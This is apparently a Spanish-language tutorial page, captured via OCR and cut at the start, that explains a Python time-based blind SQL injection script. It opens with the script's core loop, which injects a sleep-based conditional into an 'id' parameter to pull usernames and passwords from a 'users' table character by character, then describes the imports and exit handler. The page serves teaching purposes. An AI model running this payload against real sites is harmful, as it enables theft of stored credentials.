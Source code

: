 ```python
        for character in range(33,126):
            sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(0.35),1)" % (position, character)

            time_start = time.time()

            r = requests.get(sqli_url)
            
            time_end = time.time()

            if time_end - time_start > 0.35:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    makeSQLI()
```
## Explicación del script - Timing Attack

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from pwn import *
import string
```

### 1. Importación de librerías

- `requests`: Para realizar peticiones HTTP.
    
- `signal` y `sys`: Para manejar señales y controlar la salida del script.
    
- `time`: Para medir el tiempo de respuesta de las peticiones.
    
- `pwn`: Librería de Pwntools para mejorar la visualización en consola.
    
- `string`: Proporciona caracteres imprimibles.
    

---

```python
def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
```
